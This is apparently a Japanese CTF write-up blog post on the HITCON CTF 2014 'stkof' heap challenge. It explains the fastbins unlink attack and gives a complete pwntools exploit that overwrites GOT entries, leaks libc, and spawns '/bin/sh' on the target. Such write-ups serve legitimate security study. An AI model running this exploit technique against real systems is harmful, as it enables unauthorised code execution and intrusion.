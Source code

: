 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/21/hitcon-ctf-2014-stkof/
date: "2016-09-21T03:29:10+09:00"
tags: [ "ctf", "writeup", "pwn", "hitcon", "heap", "fastbins" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/stkof" ]
---
```


# HITCON CTF 2014: stkof


ちひろさんが[fastbinsで解いてた](http://pwn.hatenadiary.jp/entry/2016/09/20/002430)ので解いた。
fastbinsは始めて。
fastbins unlink attackに関してはkatagaitaiの資料が便利だった: <http://www.slideshare.net/bata_24/katagaitai-ctf-1-57598200>。

mallocされたpointerのlistがあるのでfastbinsを使わなくてもできるはず。こちらは先日のASISで既に使っている: <https://kimiyuki.net/blog/2016/09/12/asis-ctf-finals-2016-car-market/>。

## solution

無制限のheap buffer overflowがあるので適当にする問題。
64bitだし構造的にrevが楽なのでありがたい。

### fastbins unlink attack

1.  `malloc`するchunkの(内部の)大きさは統一しておく。これが異なると異なるfastbinsに登録されるため。
2.  いくらか`malloc`しひとつ`free`して、これをarena内のfastbinsのlistに登録させる。
3.  fastbinsに載せたchunkのmetadataを書き換える。
    -   その`fd`を別の位置に向ける。
    -   この時点では何も制約はない。
4.  `fd`の指す位置$+8$、その`size` fieldにあたる位置をchunkのsizeにする。
5.  `malloc`する。
    -   この時点でその結果である`p = malloc(size) == q+16`に対し`q->fd->size == size`のcheckが存在する。
    -   この`q->fd`がfastbinsに登録される。
6.  再度`malloc`すると、先の`q->fd`がその結果として返される。

この後いくらか`malloc`を呼んでも問題ないようだ。

## implementation

ubuntu 16.04環境で解いた。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='localhost')
parser.add_argument('port', nargs='?', default=8000, type=int)
args = parser.parse_args()
context.log_level = 'debug'
p = remote(args.host, args.port)

def malloc(l):
    p.sendline(str(1))
    p.sendline(str(l))
    x = int(p.recvline())
    assert p.recvline().strip() == 'OK'
    return x
def fread(x, s):
    p.sendline(str(2))
    p.sendline(str(x))
    p.sendline(str(len(s)))
    p.send(s)
    assert p.recvline().strip() == 'OK'
def free(x):
    p.sendline(str(3))
    p.sendline(str(x))
    assert p.recvline().strip() == 'OK'
def strlen(x, ok=True):
    p.sendline(str(4))
    p.sendline(str(x))
    if ok:
        return p.recvuntil('OK\n', drop=True)

elf = ELF('./stkof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
g_cnt = 0x602100
g_list = 0x602140

prev_size = 0x0
size = 0x8
fd = 0x10
bk = 0x18
PREV_INUSE = 1

# fastbins unlink attack
chunk_size = 0x20 # this is ok if 0x30, 0x40, etc
n = chunk_size
for i in range(n):  # set g_cnt = n = chunk_size
    malloc(chunk_size - size)
free(n)
payload = ''
payload += 'A' * (chunk_size - size - 0x8)
payload += 'A' * 0x8 # prev_size (used)
payload += p64(0x20) # size, setting PREV_INUSE is allowd
payload += p64(g_cnt - size) # fd
fread(n-1, payload)
malloc(chunk_size - size)
malloc(chunk_size - size) # this call returns (g_cnt + size)

# got overwrite
payload = ''
payload += 'A' * ((g_list+8) - (g_cnt+size))
payload += p64(elf.got['strlen'])
payload += p64(elf.got['__libc_start_main'])
fread(n+2, payload)
fread(1, p64(elf.plt['printf']))  # overwrite the got.strlen with plt.printf

# leak libc address
s = strlen(2)
assert s.endswith('...\n')
libc_start_main = u64(s[: -4].ljust(8, '\0'))
log.info('__libc_start_main: %#x', libc_start_main)
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)

# system('/bin/sh')
fread(1, p64(libc_base + libc.symbols['system']))  # overflow the got.strlen with system
fread(2, '/bin/sh\0')
strlen(2, ok=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
